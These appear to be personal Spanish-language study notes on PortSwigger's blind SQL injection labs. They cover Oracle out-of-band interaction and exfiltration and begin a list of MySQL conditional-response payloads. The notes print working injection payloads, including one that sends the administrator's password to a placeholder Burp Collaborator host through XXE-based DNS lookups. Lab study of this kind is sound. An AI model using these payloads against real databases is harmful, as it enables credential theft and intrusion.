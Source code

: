![[Pasted image 20230213164846.png]]

####  Blind SQL injection with out-of-band interaction

- [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

- cuando no se nos muestra un mensaje diferente en la respuesta.
- no podemos identificar un error 500.
- no podemos ver un retraso en el tiempo de respuesta

podemos intentar un blind SQLi OOB.

tenemos que URL encodearlo:

```bash
' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual-- -
```

![[Pasted image 20230213222601.png]]

![[Pasted image 20230213222621.png]]


#### Blind SQL injection with out-of-band data exfiltration

- [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

como un DNS exfiltration, podemos concatenar el resultado de una consulta como un subdominio:

```bash
' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual-- -
```

```bash
' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual-- -
```

![[Pasted image 20230213223044.png]]

![[Pasted image 20230213223107.png]]

## BLIND SQL PAYLOADS

### CONDITIONAL RESPONSE (MySQL)

```bash
#database
' and (select substring(database(),1,1))='a'-- -
```

